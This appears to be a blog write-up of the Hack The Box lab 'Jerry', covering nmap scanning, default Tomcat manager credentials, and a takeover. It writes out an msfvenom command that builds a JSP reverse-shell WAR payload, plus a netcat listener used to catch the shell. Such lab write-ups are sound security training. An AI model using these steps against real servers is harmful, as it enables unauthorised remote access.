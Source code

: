 ```yaml
---
layout: post
title: Hack The Box - Jerry
categories: hack-the-box
tags: [windows, web, rce]
image: hackthebox/jerry/0.png
description: My write-up for Jerry from Hack The Box.
redirect_from: "/HackTheBox-Jerry/"
---
```


<hr>
<br> Jerry has retired and this is my write-up about it...
<br>
<br> Jerry was one of the easiest boxes on HTB. It was a beginner-box . 
<br> It's a windows box and its ip is 10.10.10.95
![](/images/hackthebox/jerry/0.png)
<hr>
<br>
<br> Starting with nmap to scan for tcp ports and services :
`nmap -sV -sT 10.10.10.95`
![](/images/hackthebox/jerry/1.jpg)
<hr>
<br>
<br> We can see that the port 8080 is open and running http and the server is Apache Tomcat.
<br> By visiting it in the browser we get the default tomcat configuration page.
![](/images/hackthebox/jerry/2.png)
<hr>
<br>
<br> There's a manager app so let's try to access it .
![](/images/hackthebox/jerry/3.png)
<hr>
<br>
<br> It asks for authentication and common passwords like those mentioned below didn't work:
*tomcat:tomcat* <br>
*admin:admin* <br>
*admin:password* <br>
*user:password* <br>
<br> So by closing the login panel it causes an error because we are not authorized to view the manager page
<br> But by looking at the error page :
![](/images/hackthebox/jerry/4.png)
<hr>
<br>
<br> It shows these credentials :
*tomcat:s3cret*
<br> This seems to be a part of the documentation and those credentials are dafault credentials.
<br> Will they work ? yup !
![](/images/hackthebox/jerry/5.png)
![](/images/hackthebox/jerry/6.png)
<hr>
<br>
## Exploitation
<br> Now we are logged in to the manager app and we can get a shell from here
<br>
<br> We are on an apache tomcat server and apache tomcat uses WAR files.
<br> To get a reverse shell we will use msfvenom to create the payload :
<br>
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.xx.xx LPORT=4449 -f war > backdoor.war`
![](/images/hackthebox/jerry/7.jpg)
<br>
<br> Then we will upload our payload to the server.
![](/images/hackthebox/jerry/8.jpg)
![](/images/hackthebox/jerry/9.jpg)
<br>
<br> Then we will listen to the port with netcat :
<br>
`nc -lvnp 4449`
<hr>
<br>
<br> Now we got a reverse shell as admin so there's no need for previlege escalation.

![](/images/hackthebox/jerry/10.jpg)
<br>
<br>
![](/images/hackthebox/jerry/11.jpg)
<br>
<br>
![](/images/hackthebox/jerry/12.jpg)
<br>
<hr>
<br> Another way to do this is to use this tool written by **mgeeky** [TomcatWarDeployer](https://github.com/mgeeky/tomcatWarDeployer) to automate the process of getting a shell
![](/images/hackthebox/jerry/13.jpg)
<br>
<br>
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> Next Hack The Box write-up : [Hack The Box - Hawk](/hack-the-box/hawk/)
<hr>
